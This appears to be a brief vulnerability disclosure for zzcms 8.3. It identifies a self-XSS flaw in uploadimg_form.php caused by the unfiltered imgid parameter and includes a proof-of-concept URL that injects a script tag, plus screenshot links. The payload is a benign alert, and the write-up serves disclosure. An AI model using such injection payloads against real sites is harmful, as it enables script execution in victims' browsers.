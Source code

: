 
## Component
zzcms 8.3 Download link:http://www.zzcms.net/download/zzcms83.zip
## Vulnerability location
**/uploadimg_form.php** line 67
![](https://github.com/RobinParkerX/zzcms8.3-xss/blob/master/image/1.png)
**imgid** parameter Directly from user input and no security filtering that cause a self_xss
## Vulnerability trigger condition
Triggered after user or admin login
![](https://github.com/RobinParkerX/zzcms8.3-xss/blob/master/image/2.png)
## POC
```
http://192.168.30.216/uploadimg_form.php?imgid="><script>alert(2)</script>"

```
![](https://github.com/RobinParkerX/zzcms8.3-xss/blob/master/image/3.png)
